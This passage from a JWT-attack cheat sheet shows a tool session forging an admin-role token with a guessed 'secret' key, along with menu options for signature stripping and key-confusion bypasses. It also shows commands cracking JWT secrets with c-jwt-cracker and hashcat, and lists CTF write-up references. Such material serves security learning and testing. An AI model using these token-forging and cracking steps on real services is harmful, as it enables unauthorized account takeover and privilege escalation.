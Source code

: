 Finally, finish the token by signing it with the previously retrieved "secret" key.

```powershell
Token Signing:
[1] Sign token with known key
[2] Strip signature from token vulnerable to CVE-2015-2951
[3] Sign with Public Key bypass vulnerability
[4] Sign token with key file

Please select an option from above (1-4):
> 1

Please enter the known key:
> secret

Please enter the keylength:
[1] HMAC-SHA256
[2] HMAC-SHA384
[3] HMAC-SHA512
> 1

Your new forged token:
[+] URL safe: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNTE2MjM5MDIyfQ.xbUXlOQClkhXEreWmB3da_xtBsT0Kjw7truyhDwF5Ic
[+] Standard: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNTE2MjM5MDIyfQ.xbUXlOQClkhXEreWmB3da/xtBsT0Kjw7truyhDwF5Ic
```

### JWT cracker

```bash
git clone https://github.com/brendan-rius/c-jwt-cracker
./jwtcrack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.cAOIAifu3fykvhkHpbuhbvtH807-Z2rI1FS3vX1XMjE
Secret is "Sn1f"
```

### Hashcat

> Support added to crack JWT (JSON Web Token) with hashcat at 365MH/s on a single GTX1080 - [src](twitter.com/hashcat/status/955154646494040065)

```bash
/hashcat -m 16500 hash.txt -a 3 -w 3 ?a?a?a?a?a?a
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMj...Fh7HgQ:secret
```

## References

- [Hacking JSON Web Token (JWT) - Hate_401](https://medium.com/101-writeups/hacking-json-web-token-jwt-233fe6c862e6)
- [WebSec CTF - Authorization Token - JWT Challenge](https://ctf.rip/websec-ctf-authorization-token-jwt-challenge/)
- [Privilege Escalation like a Boss - October 27, 2018 - janijay007](https://blog.securitybreached.org/2018/10/27/privilege-escalation-like-a-boss/)
- [5 Easy Steps to Understanding JSON Web Token](https://medium.com/vandium-software/5-easy-steps-to-understanding-json-web-tokens-jwt-1164c0adfcec)
- [Hacking JSON Web Tokens - From Zero To Hero Without Effort - Websecurify Blog](https://blog.websecurify.com/2017/02/hacking-json-web-tokens.html)
- [HITBGSEC CTF 2017 - Pasty (Web) - amon (j.heng)](https://nandynarwhals.org/hitbgsec2017-pasty/)
- [Critical vulnerabilities in JSON Web Token libraries - March 31, 2015 - Tim McLean](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries//)
- [Learn how to use JSON Web Tokens (JWT) for Authentication - @dwylhq](https://github.com/dwyl/learn-json-web-tokens)
- [Simple JWT hacking - @b1ack_h00d](https://medium.com/@blackhood/simple-jwt-hacking-73870a976750)